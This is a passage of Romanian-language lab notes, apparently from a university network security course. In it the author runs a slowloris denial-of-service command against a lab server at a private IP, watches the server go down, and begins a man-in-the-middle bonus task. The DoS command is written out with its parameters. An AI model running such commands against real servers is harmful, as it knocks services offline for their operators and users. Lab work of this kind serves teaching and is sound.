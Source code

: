 ```sh
# Din mai multe terminale (dureaza ceva tho)
root@green:~# slowloris --port 80 --sockets 1000 -v --sleeptime 1 192.168.1.2
```

Setez un numar de socket-uri cat mai mare, si un timp cat mai mic intre pachete.

> Aparent, **sleeptime**-ul trebuie sa fie musai **int**.


Dupa cateva momente, serverul pica.

...si asa ramane.
O alta rulare a comenzii `elinks http://192.168.1.2/` imi arata mesajul **Request sent**.


![img](Images/Screenshot%20from%202024-12-12%2001-07-22.png)


```sh
# Resetam topologia
root@host:~# start_lab mitm
```



## Task 9 (Bonus) | Rulare **Main in The Midle**


> Dupa **Dos**-ul de mai devreme, nu o sa mearga `https://curs.upb.ro/`.
> E si logic...ca il redirectam la statia **red**, al carui IP este **192.168.1.2/22**.
> 
>
> Am creat un VM nou, **update** si **start** din nou :).
